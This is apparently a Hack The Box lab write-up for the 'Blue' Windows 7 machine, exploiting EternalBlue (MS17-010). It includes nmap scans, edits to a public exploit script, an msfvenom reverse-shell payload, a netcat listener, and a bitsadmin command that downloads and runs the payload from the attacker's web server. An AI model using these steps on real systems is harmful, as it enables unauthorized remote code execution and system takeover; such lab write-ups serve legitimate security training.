





## Overview

Blue is a Windows box that was vulnerable to the infamous EternalBlue exploit which was leaked by the Shadow Brokers in 2017. Using the nmap script functionality I was able to determine the box was vulnerable to CVE-2017-0144 / MS17-010, a flaw that allows attackers to execute arbitrary code on a target system by sending specially crafted messages to a SMBv1 server. An existing exploit written in python was used to get a reverse shell as 'nt authority/system'.

> Eternal blue works by exploiting multiple SMBv1 bugs that when chained together allow the attacker to write and execute shellcode to gain access to the target. More information can be found [here](https://www.sentinelone.com/blog/eternalblue-nsa-developed-exploit-just-wont-die/)

## Enumeration

**Software**

* Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)

**Port Scan**

```
nmap -vv -Pn -sT -A -p- 10.10.10.40 -oN /mnt/data/boxes/blue/_full_tcp_nmap.txt
```

* 135/tcp - Microsoft Windows RPC
* 139/tcp - Microsoft Windows netbios-ssn
* 445/tcp - Microsoft Windows SMB
* 49152/tcp - Microsoft Windows RPC
* 49153/tcp - Microsoft Windows RPC
* 49154/tcp - Microsoft Windows RPC
* 49155/tcp - Microsoft Windows RPC
* 49156/tcp - Microsoft Windows RPC
* 49157/tcp - Microsoft Windows RPC

**Vulnerability Scan**

```
nmap 10.10.10.40 -p 445 -script=smb-vuln*
```



## Steps (User)

The EternalBlue exploit grants access as nt authority/system, there is no user step.

## Steps (root/system)

Running a search in searchsploit shows a few results.



I went with 42315.py which required a couple modifications:

Line 36: change username to guest

```
USERNAME = 'guest'
PASSWORD = ''
```

Line 910: Modify the smb_pwn function. This specifies the source of the file to transfer (our reverse shell payload), the destination (root of C:), the name of the destination file (rshell.exe), and the location on the target box to execute rshell.exe

```
def smb_pwn(conn, arch):

    smbConn = conn.get_smbconnection()
    smb_send_file(smbConn, '/root/boxes/blue/rshell.exe', 'C', 'rshell.exe')
    service_exec(conn, r'cmd /c c:\\rshell.exe')
```

I generated a reverse shell payload using msfvenom and started a netcat listener (rlwrap nc -lvnp 4200)

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=4200 -f exe -o rshell.exe
```

> Note: rlwrap fixes the arrow key functionality for windows reverse shells.

With the modifications complete, I ran the exploit and received a callback and shell as 'nt authority\system'

```
./42315.py 10.10.10.40 samr
```



## Steps (root/system) #2

Alternatively I could have used bitsadmin to download the payload from my machine via http and excute it to create the reverse shell. I didn't have much luck with the python http server so I used apache. 

I copied the rshell.exe file created earlier to web server root

```
cp rshell.exe /var/www/html/
```

I created a netcat listener (rlwrap nc -lvnp 4200) and started the apache service.

```
systemctl start apache2.service
```

I updated 42315.py to reflect the changes needed to use bitsadmin to download and execute rshell.exe

```
def smb_pwn(conn, arch):

    smbConn = conn.get_smbconnection()
    service_exec(conn, r'cmd /c bitsadmin /transfer pwnage /download /priority high http://10.10.14.8/rshell.exe c:\windows\temp\rhell.exe')
    service_exec(conn, r'cmd /c c:\\windows\\temp\\rshell.exe')
```

I ran the exploit and receved a callback and shell as 'nt authority\system'

```
./42315.py 10.10.10.40 samr
```


